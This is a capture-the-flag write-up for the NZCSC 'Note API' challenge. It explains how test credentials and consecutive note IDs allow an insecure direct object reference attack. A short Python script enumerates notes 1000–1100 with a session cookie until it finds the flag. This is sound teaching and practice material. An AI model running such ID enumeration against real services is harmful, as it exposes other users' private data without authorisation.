 # C-4: Note API
>NZCSC is working on creating a note taking application.  
The application is available as an API.  
It is however a work in progress, some endpoints are complete while others are not.  
The documentation for the current version of the API can be found [here](noteAPI.md).

*Unfortunately due to the nature of this challenge we are unable to archive it.*
We are given an OpenAPI specification for a note API. The endpoints can all be accessed at `/challenge4/api.php`.
Most requests to this give back `{ "error": "Unauthorized" }` suggesting we need to login first. Conveniently the username and password are provided at the top of the API specification: `Use username=eve, password=letm3in for testing`.
Sending this in the form of a POST request to `/challenge4/api.php/login` in the form of JSON data gives `{ "message": "Login successful" }` and gives us a PHPSESSID cookie to store. 
We can modify our requests to include this by adding the header `Cookie: PHPSESSID=5b46175213f56d5117a5f71bd1146a18; path=/`. 
To test, we can request `/notes` to see a list of all the current user's notes:
![A screenshot of JSON data showing contents of various notes](notes.png)
These notes have notably (ha) consecutive IDs, which suggests that an IDOR attack (insecure direct object reference) may be possible. We can test this by requesting note 1040, which is not owned by our user. Requesting `/note/1040` gives `{ "id": 1040, "title": "Tech Projects", "content": "Learn Docker" }`. This shows that we are allowed to view notes beyond our own.
It is now a matter of checking more IDs. The script below simply prints the contents of the notes from 1000-1100 (notes below 1000 return `Note not found`):
```python
import http.client

conn = http.client.HTTPSConnection("ctf.nzcsc.org.nz")
payload = ''
headers = {
  'Cookie': 'PHPSESSID=5b46175213f56d5117a5f71bd1146a18; path=/'
}

for i in range(1000, 1100):
  conn.request("GET", "/challenge4/api.php/note/"+str(i), payload, headers)
  res = conn.getresponse()
  data = res.read()
  print(data.decode("utf-8"))
```
and running this shows the flag at ID 1077: `{"id": 1077, "title": "Reading", "content": "FLAG[ABBBB77F699E23DD]" }`.